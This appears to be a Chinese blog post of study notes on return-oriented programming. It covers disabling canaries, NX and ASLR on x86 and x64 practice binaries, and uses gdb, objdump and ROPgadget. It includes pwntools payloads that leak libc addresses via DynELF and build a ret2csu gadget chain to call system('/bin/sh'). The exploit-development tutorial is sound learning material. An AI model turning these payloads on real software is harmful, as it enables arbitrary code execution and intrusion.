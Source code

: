 ```yaml
---
layout: post
title: 一步一步学ROP笔记
slug: note
date: 2018-03-28 14:45
status: publish
author: yuri
tags: 
  - pwn
  - ROP
categories:
  - pwn
excerpt: ROP的全称为Return-oriented programming(返回导向编程),这是一种高级的内存攻击技术可以用来绕过现代操作系统的各种通用防御(比如DEP, ASLR等).

---
```


# 一步一步学ROP笔记
> 原文地址: [一步一步学ROP](drops.wooyun.org/tips/6597)

## x86 

### 无保护

* 关掉canary:  **-fno-stack-protector**
* 关掉NX:  **-z execstack**
* 关掉PIE:  **sudo -s echo 0 > /proc/sys/kernel/randomize_va_space**

### 绕过NX

gdb下找`system()`和`"/bin/sh\x00"`的地址:

```bash
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e5f460 <system>
(gdb) print __libc_start_main
$2 = {<text variable, no debug info>} 0xb7e393f0 <__libc_start_main>
(gdb) find 0xb7e393f0, +2200000, "/bin/sh"
0xb7f81ff8
(gdb) x/s 0xb7f81ff8
0xb7f81ff8:  "/bin/sh"
```

### 绕过NX和PIE

* 看plt : **objdump -d -j .plt level2**
* 看got : **objdump -R level2**
* 查看目标程序调用的so库 : **ldd level2**

用pwntools: 

```python
elf = ELF('level2')
plt_write = elf.symbols['write']
got_write = elf.got['write']

libc = ELF('libc.so')
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
```

### 无libc.so

步骤: 
1. 泄露`__libc_start_main`地址
2. 获取`libc`版本
3. 获取`system`地址与`/bin/sh`的地址
4. 再次执行源程序
5. 触发栈溢出执行`system(“/bin/sh”)`

DynELF的使用: 

```python
def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data

d = DynELF(leak, elf=ELF('./level2'))
system_addr = d.lookup('system', 'libc')
```

------

## x64

### 传参区别

* 前六个参数保存顺序 : **RDI, RSI, RDX, RCX, R8, R9**

### gadgets

* 找ROP:  **ROPgadget --binary level4 --only "pop|ret"**
* 过滤:  **ROPgadget --binary libc.so.6 --only "pop|ret" | grep rdi**

### 通用gadgets part1

`__libc_csu_init()`下: 

```bash
.text:0000000000400840                 public __libc_csu_init
.text:0000000000400840 __libc_csu_init proc near               ; DATA XREF: _start+16o
.text:0000000000400840                 push    r15
.text:0000000000400842                 mov     r15d, edi
.text:0000000000400845                 push    r14
.text:0000000000400847                 mov     r14, rsi
.text:000000000040084A                 push    r13
.text:000000000040084C                 mov     r13, rdx
.text:000000000040084F                 push    r12
.text:0000000000400851                 lea     r12, __frame_dummy_init_array_entry
.text:0000000000400858                 push    rbp
.text:0000000000400859                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:0000000000400860                 push    rbx
.text:0000000000400861                 sub     rbp, r12
.text:0000000000400864                 xor     ebx, ebx
.text:0000000000400866                 sar     rbp, 3
.text:000000000040086A                 sub     rsp, 8
.text:000000000040086E                 call    _init_proc
.text:0000000000400873                 test    rbp, rbp
.text:0000000000400876                 jz      short loc_400896
.text:0000000000400878                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400880
.text:0000000000400880 loc_400880:                             ; CODE XREF: __libc_csu_init+54j
.text:0000000000400880                 mov     rdx, r13
.text:0000000000400883                 mov     rsi, r14
.text:0000000000400886                 mov     edi, r15d
.text:0000000000400889                 call    qword ptr [r12+rbx*8]
.text:000000000040088D                 add     rbx, 1
.text:0000000000400891                 cmp     rbx, rbp
.text:0000000000400894                 jnz     short loc_400880
.text:0000000000400896
.text:0000000000400896 loc_400896:                             ; CODE XREF: __libc_csu_init+36j
.text:0000000000400896                 add     rsp, 8
.text:000000000040089A                 pop     rbx
.text:000000000040089B                 pop     rbp
.text:000000000040089C                 pop     r12
.text:000000000040089E                 pop     r13
.text:00000000004008A0                 pop     r14
.text:00000000004008A2                 pop     r15
.text:00000000004008A4                 retn
.text:00000000004008A4 __libc_csu_init endp   
```

因此若要调用`write(1,got_write,8)`, 则可这样构造: 

```python
# rbx必须为0,因为call qword ptr [r12+rbx*8]
# rbp必须为1,0x40088D~0x400894有一个cmp,jnz
# r12 = addr_got,因为call qword ptr [r12+rb1x*8]
# r13 = rdx = arg3
# r14 = rsi = arg2
# r15 = edi = arg1
# retn的padding需要7*8=56byte

# padding
payload1 =  "\x00"*136 
# pop rbx地址_rbx=0_rbp=1_调用函数got_arg1_arg2_arg3
payload1 += p64(0x40089A) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) 
# mov rdx,r13地址(注意看原始汇编)
payload1 += p64(0x400880) 
# padding(7*8=56byte)
payload1 += "\x00"*56
# ret
payload1 += p64(main)
```

此外还有一个x64 gadgets, 就是:

* pop rdi
* ret

的gadgets. 这个gadgets是由opcode错位产生的.

如上的例子中0x4008A2, 0x4008A4两处的字节码如下:

* 0x41 0x5f 0xc3

意思是`pop r15, ret`, 但是恰好`pop rdi, ret`的opcode如下:

* 0x5f 0xc3

因此如果我们指向0x4008A3就可以获得`pop rdi, ret`的opcode, 从而对于单参数函数可以直接获得执行
与此类似的, 还有0x4008A1处的 `pop rsi, pop r15, ret`
那么这个有什么用呢？我们知道x64传参顺序是**rdi, rsi, rdx, rcx**.
所以rsi是第二个参数, 我们可以在rop中配合`pop rdi,ret`来使用`pop rsi, pop r15,ret`, 这样就可以轻松的调用2个参数的函数.
综上, 就是x64下利用通用gadgets调用一个参数, 两个参数, 三个参数函数的方法.

